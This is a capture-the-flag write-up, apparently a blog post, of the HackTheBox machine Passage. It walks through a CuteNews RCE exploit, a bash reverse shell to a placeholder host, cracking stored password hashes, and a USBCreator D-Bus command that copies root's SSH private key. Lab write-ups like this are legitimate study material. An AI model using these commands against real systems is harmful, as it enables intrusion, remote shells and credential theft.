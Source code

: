 ```yaml
---
title: HackTheBox - Passage Writeup
subtitle: Here's my writeup for the RETIRED machine Passage, Which is a Medium Linux machine!
# Summary for listings and search engines
summary: Here's my writeup for the RETIRED machine Passage, Which is a Medium Linux machine!



# Link this post with a project
projects: []

# Date published
# Date published
date: "2021-03-06T00:00:00Z"

# Date updated
lastmod: "2021-03-06T00:00:00Z"
# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**HackTheBox**]'
  focal_point: ""
  placement: 2
  preview_only: false

authors:
- admin


tags:
- HackTheBox


---
```







# <p style="color:RED">Information Gathering </p>

## <p style="color:Green">Nmap scan </p> 
`rustscan -a 10.10.10.206 -- -A -sC -sV`

```
Open 10.10.10.206:22
Open 10.10.10.206:80
```

```
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|   256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News

```

<p> We have two ports open 
	Port 22 : OpenSSH 7.2p2
	Port 80 : Apache httpd 2.4.18
</p>

## <p style="color:Green">Exploring the WebServer </p> 

Let's first add Passage.htb to our hosts file!


We can see that Fail2Ban is Implemented on the server! So no need to waste our time trying bruteforcing dirs and files

<img src="fail2ban.png"> 

What really catchs my eye is 

`Powered by CuteNews`

A simple search on google can reveal the default dir for CuteNews CMS which is /CuteNews/

Let's see what we get!
<img src="cuteCMS.png">
Nice! We got the CMS version 

`Powered by CuteNews 2.1.2`

Let's find a vulnerability related to this version!

# <p style="color:RED">Initial Foothold </p>


Let's see what searchsploit has for us!

<img src="Searchsploit.png">

Let's grab that juicy RCE python exploit

```
searchsploit -m php/webapps/48800.py
```


And run our script, We only need to provide <b>	http://passage.htb</b>

```
python3 48800.py
```
<img src="foothold.png">

And we're on the box!

Let's get a proper shell on the box!

`/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'`

<img src="pwncat.png">

# <p style="color:RED">User Privesc</p>

## <p style="color:Green">Paul user </p> 


Going through the webserver config, I found an interesting directory

`/var/www/html/CuteNews/cdata/users`

Which seem to contain some juicy encoded informations

<img src="encoded.png">

It looks like it's Base64 encoded!
Let's decode it

```
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

```
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

Seems like we got nadav and paul's hash password

It's a sha2-256 hash, we're gonna use Hashcat with the rockyou wordlist to crack them!

```
echo "7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1" > hash 
echo "e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd" > hash
```

```
hashcat -m 1400 hash /opt/rockyou.txt
```

Seems like we were only able to crack paul's hash!

<img src="cracked.png">

`paul:atlanta1`

And grab our user flag


## <p style="color:Green">Nadav user </p> 

We can notice that nadav can access paul's session

<img src="ssh.png">

Let's see if paul's can access nadav's session

```
ssh nadav@passage
```

<img src="nadav.png">

It worked!

# <p style="color:RED">Root Privesc</p>

Let's first run 
```
ps -aux
```
To see the current running processes!
<img src="usb.png">
What really catches me is that root is running, and that's odd
```
/usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```
A bit a searching/reading from google can lead us to something, which is the ability to get any file we want!


```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /dev/shm/id_rsa true
```
<img src="root1.png">

And we rooted the box! 

## Thanks for reading hope you enjoyed it!


